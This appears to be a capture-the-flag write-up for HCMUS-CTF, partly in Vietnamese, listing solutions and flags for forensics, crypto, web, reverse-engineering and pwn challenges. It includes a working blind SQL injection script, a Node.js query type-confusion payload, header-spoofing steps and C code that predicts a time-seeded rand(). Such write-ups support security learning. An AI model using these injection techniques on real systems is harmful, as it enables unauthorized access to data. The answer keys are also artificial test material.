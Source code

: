 # HCMUS-CTF
## Forensics
### Docker Babe
- <code> docker pull pakkunandy/docker-babe </code>
- <code> docker run -t -i pakkunandy/docker-babe bash</code>
- <code> cat flag.txt </code>
- Flag: HCMUS-CTF{Docker_Is_an_essential_tool_You_have_to_learn_FORRRRSURRREEEE}

## Crypto
### Xor
- Xor cipher với key "HCMUS-CTF", ta thấy key = "FIT"
- Xor cipher với key "FIT"
- Flag: HCMUS-CTF{XoR_1s_a_KinD_oF_Crypto}
### The Ripper
- Dùng John với 2 file được cho, ta được username và password
- Flag: HCMUS-CTF{Use_John_the_ripper_to_crack_password_is_fun!!!HAHAHA}

## Web
### Secret Agent
- Thêm header: "User-Agent: eevee" vào request
- Flag: HCMUS-CTF{+he_4g3nt_Izzz_eevoolution0123456}
### Secret Dir
- Tìm được http://159.65.13.76:1338/
- Gửi request đến /flagpassword với header: "Referer: http://159.65.13.76:1338/flagflagflagflag", ta được username và password để vào /flagflagflagflag.
- Flag: HCMUS-CTF{1t_1zzzz_Crucial_t0_kn0W_Headers_and_R0b0tz}
### Blind SQL
- Blind SQL cơ bản
```
  for i in range(0, 50):
	print(i)
	for char in mchar:
		payload = "admin\' and password LIKE BINARY \'" + flag + char + "%"
		data = {'username': payload}
		x = requests.post(url, data)
		if "exists" in x.text:
			flag = flag + char
			break
print(flag)
```
- Flag: HCMUS-CTF{Sh0uld_I_Us3_NoSQL_N3xt_T1m3_0x3f3f3f}

### Funny Express
- Payload: ?query[toString]=0
- Flag: HCMUS-CTF{DidntKn0wN0d3JSW0uld_be_sooo00z_Funny}

## RE
### Patient Revenge Revenge
- Patch file exe để vô hiệu hóa timer :D
- Flag: HCMUS-CTF{d0_y0u_kn0w_ARc_fourrrrrrrrrrrr}
### Z3
- Dùng IDA decompile chương trình, sau đó copy hàm checkme vào đưa cho z3-solver
- Flag: HCMUS-CTF{H4v3_y0u_ev3r_he4rd_0f_z3}
### Lucky mine
- Dùng cnSpy debug chương trình, đặt breakpoint ở hàm Init_Mine_Field(), ta tìm ra được các vị trí không phải bom
- Flag: HCMUS-CTF{C_SHARPez}

## Pwn
### Secret
- Hàm strncmp(a, b, n) chỉ so sánh n ký tự đầu tiên của chuỗi a, b
- Payload: HCMUS-CTF
- Flag: HCMUS-CTF{strncmp_is_so_fun}
### Store
- srand(time(0)) lấy seed là thời gian hiện tại
```
	time_t cur = time(0);
	for(int i = 0; i < 1000000; i++)
	{
		srand(cur - i);
		for(int j = 0; j < 3; j++)
		{	
			if(rand() % 123456 != price[j])
			{
				break;
			}
			if(j == 2)
			{
				printf("Next number %d\n", rand() % 123456);
				exit(0);
			}
		}
	}
```
- Flag: HCMUS-CTF{N3v3r_Us3_srand_time_0}
